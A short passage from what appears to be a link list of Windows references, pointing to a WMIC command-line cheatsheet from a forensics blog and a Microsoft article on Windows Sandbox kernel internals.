- Windows Command Line cheatsheet (part 2): WMIC: https://www.andreafortuna.org/dfir/windows-command-line-cheatsheet-part-2-wmic/
Kernel¶
- Kernel Internals - Windows Sandbox: https://techcommunity.microsoft.com/t5/Windows-Kernel-Internals/Windows-Sandbox/ba-p/301849